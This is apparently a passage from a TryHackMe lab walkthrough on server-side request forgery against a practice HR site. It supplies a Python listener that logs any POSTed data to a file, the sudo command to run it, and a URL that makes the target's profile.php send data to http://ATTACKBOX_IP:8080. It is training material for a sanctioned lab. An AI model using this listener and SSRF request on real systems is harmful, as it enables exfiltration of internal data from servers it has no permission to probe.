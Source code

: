 On our AttackBox, we will create a new file called server.py and add the following code to it:

```bash
nano server.py
```

then we will pase this code:

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
    
```

The above code will receive all the content and save it to a file data.
html on the server.
To obtain the data, we first need to start a lightweight server.
We can do this in AttackBox by using the following commands:

```bash
thm@machine$ sudo chmod +x server.py && sudo python3 server.py
```

Now we will open the browser and open `http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080`, which will log the data in the data.html.
